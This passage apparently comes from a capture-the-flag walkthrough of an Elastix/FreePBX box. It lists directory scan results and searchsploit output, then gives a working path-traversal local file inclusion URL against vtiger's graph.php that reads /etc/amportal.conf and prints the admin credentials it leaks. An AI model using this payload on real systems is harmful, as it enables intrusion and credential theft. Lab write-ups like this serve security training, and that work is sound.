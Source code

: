 ```
/configs (Status: 301)
/favicon.ico (Status: 200)
/help (Status: 301)
/images (Status: 301)
/lang (Status: 301)
/libs (Status: 301)
/mail (Status: 301)
/modules (Status: 301)
/panel (Status: 301)
/recordings (Status: 301)
/robots.txt (Status: 200)
/static (Status: 301)
/themes (Status: 301)
/var (Status: 301)
/vtigercrm (Status: 301)
```
- `/admin` - leave password empty -> **FreePBX 2.8.1.4**
- `/configs/` 
```
[TXT]	default.conf.php	01-Nov-2011 21:56 	3.1K
[TXT]	email.conf.php	01-Nov-2011 21:56 	2.5K
[TXT]	languages.conf.php	01-Nov-2011 21:56 	2.8K
```
- `/mail` Welcome to RoundCube Webmail
- `/help` -> system -> backup -> .tar from 2010
- `/vtigercrm` : vtiger CRM 5.1.0


let do searchsploit for Elastix
```console
kali@kali:/opt$ searchsploit Elastix
Elastix 2.2.0 - 'graph.php' Local File Inclusion                | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                               | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                              | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution          | php/webapps/18650.py
```
I view `Elastix 2.2.0 - 'graph.php' Local File Inclusion ` and it seem like this could works. so lets visit
```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
view source to see the content with line break!
```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```
yep we got admin cerdential `admin:jEhdIekWmdjE`. let log into `Elastix`, ofc it works!! on the admin page I found this!